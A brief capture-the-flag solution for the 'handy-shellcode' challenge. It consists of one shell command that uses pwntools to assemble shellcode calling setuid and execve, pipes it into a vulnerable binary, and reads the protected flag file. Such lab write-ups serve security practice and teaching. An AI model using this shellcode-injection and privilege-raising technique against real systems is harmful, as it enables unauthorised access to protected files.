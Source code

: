 # handy-shellcode 

## Solution

```sh
cd /problems/handy-shellcode_0_24753fd2c78ac1a60682f0c924b23405; python -c 'from pwn import *; print(asm(shellcraft.setuid(1002) + shellcraft.execve(path="/bin/cat", argv=["/bin/cat","./flag.txt"])))' | ./vuln;echo
```

